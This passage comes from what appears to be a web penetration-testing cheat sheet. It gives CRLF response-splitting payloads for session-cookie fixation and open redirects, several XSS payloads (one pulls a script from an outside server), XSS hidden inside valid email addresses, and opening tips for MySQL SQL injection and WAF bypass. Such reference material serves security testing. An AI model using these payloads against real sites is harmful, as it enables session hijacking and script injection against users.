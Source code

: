 When encoded, `\r` refers to `%0D` and `\n` refers to `%0A`.

Fixate a session cookie:

```fundamental
somesite.com/redirect.asp?origin=somesite.com%0D%0ASet-Cookie:%20ASPSESSION=123456789
```

Open redirect:

```fundamental
somesite.com/home.php?marketing=winter%0D%0ALocation:%20https%3A%2F%2Fgithub.com
```

Session fixation and redirection are one of many techniques used in combination with HTTP response splitting. Search the Internet for more information.

### Cross-Site Scripting (XSS)

Simple cross-site scripting (XSS) examples:

```html
<script>alert(1)</script>

<script src="https://myserver.com/xss.js"></script>

<img src="https://github.com/favicon.ico" onload="alert(1)">
```

Hosting JavaScript on [Pastebin](https://pastebin.com) doesn't work because Pastebin returns the plain text content-type.

Find out more about reflected and stored cross-site scripting (XSS) attacks, as well as cross-site request forgery (XSRF/CSRF) attacks from my other [project](https://github.com/ivan-sincek/xss-catcher).

Valid emails with embedded XSS:

```html
user+(<script>alert(1)</script>)@somedomain.com

user@somedomain(<script>alert(1)</script>).com

"<script>alert(1)</script>"@somedomain.com
```

### SQL Injection

**The following examples were tested on MySQL database. Note that MySQL requires a white space between the comment symbol and the next character.**

If you need to URL encode the white space, use either `%20` or `+`.

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash, or period.

**Always make sure to properly close the surrounding code.**

Read this [article](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) to learn how to bypass WAF.

---